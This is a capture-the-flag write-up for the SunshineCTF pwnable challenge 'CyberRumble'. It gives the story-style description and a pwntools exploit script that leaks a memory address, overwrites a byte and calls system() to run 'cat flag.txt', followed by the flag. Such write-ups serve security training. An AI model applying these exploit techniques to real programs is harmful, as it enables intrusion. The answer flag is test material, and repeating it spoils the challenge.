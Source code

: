 # **CyberRumble**

#### tag : pwnable

-----------------------------------------------

#### Description

>Hey you! You're a hacker, right? So am I! Or, at least I thought I was. You see, I'm a big fan of The Undertaker, and I was trying to help him out. He's got an upcoming Hell in a Cell match against Mankind. I wrote some malware I named Undertaker C2 and infected the computers of Mankind's manager with it. The problem is that I accidentally used an old version of this malware, which was before I tested the code and got the bugs worked out. So none of the functionality seems to work! I also lost the source code for this malware. I'm in a real bind, because I need to get information off of that computer to see what Mankind is planning. Here's the malware implant I placed on his computer, please see if you can use it to retrieve any useful information!
>
>nc rumble.sunshinectf.org 4300
>
>Author: hackucf_kcolley (IRC), kcolley (Discord)

-----------------------------------------------

#### Solution

```python
from pwn import *

context.log_level = 'debug'
#r = process('./CyberRumble')
r = remote('rumble.sunshinectf.org', 4300)

rr = lambda x: r.recvuntil(str(x))
ss = lambda x: r.sendline(str(x))

# stage 1 : leak mmap address where `cat flag.txt` is stored
p1 = 'old_school '
p1 += 'a' * (0xa-len(p1)+2)
p1 += 'cat flag.txt'

rr('?\n')
ss(p1)
leak = (int((rr('.').split(' ')[-1])[:-1],16))
rr('?\n')
ss('a')
log.info('leak : 0x%x' % leak)

# stage 2 : overwrite 8th byte of rdi to \x00  when system() called in stage 3
p2 = 'old_school '
p2 += 'a' * (0xa-len(p2))
p2 += 'B' * 6   

rr('?\n')
ss(p2)
rr('?\n')
ss('b')

# stage 3 : call system() with rdi which indicate `cat flag.txt`
p3 = 'last_ride '
p3 += p64(leak+1)

rr('?\n')
ss(p3)

r.interactive()
```
**sun{the chair and thumbtacks are ready, but the roof is a little loose}**

